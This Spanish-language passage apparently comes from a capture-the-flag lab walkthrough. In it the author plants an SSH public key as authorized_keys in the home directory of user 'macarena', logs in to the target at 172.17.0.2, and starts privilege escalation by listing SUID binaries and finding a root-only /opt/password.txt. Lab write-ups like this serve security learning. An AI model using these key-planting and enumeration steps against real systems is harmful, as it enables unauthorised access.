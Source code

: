 Renombramos la llave pública: 

```shell
mv id_rsa.pub authorized_keys 
```

Creamos el directorio `.ssh` en el directorio personal del usuario **macarena**, ingresamos al usuario y subimos el fichero **authorized_keys**

```shell
mkdir .ssh
cd .ssh
put authorized_keys
--------------------
putting file authorized_keys as \.ssh\authorized_keys (358.9 kb/s) (average 358.9 kb/s)
 
```

Procedemos a ingresar a la máquina víctima usando **SSH**:

```shell
ssh -i id_rsa macarena@172.17.0.2
```

------------------------------
## Escalando privilegios

Desconocemos el password del usuario **macarena** por tanto 

verificamos los ficheros con el [**setuid**](https://es.wikipedia.org/wiki/Setuid) habilitado

```shell
find / -perm -4000 -type f 2>/dev/null
------------------------------------------------
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
```

Sin embargo, no encontramos mecanismo para escalar privilegios, procedemos a revisar los ficheros del sistema `\opt`, `\home`:

```shell
ls -la /opt
--------------
-rw------- 1 root root   16 Aug 19 19:21 password.txt
```

Encontramos el fichero **password.txt** sin embargo está restringido solo para el usuario **root**.
